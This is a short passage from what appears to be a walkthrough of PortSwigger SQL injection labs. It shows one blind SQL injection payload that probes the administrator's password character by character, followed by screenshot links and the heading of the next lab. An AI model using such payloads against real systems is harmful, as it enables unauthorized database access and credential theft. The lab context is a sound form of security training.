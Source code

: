 `' AND (SELECT SUBSTR(password,1,1)='a' FROM users WHERE username='administrator')--`

![Alt text](../image/lab11/07.png)

login and solve the lab

![solve](../image/lab11/08.png)

# [Lab 12: Blind SQLi with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)
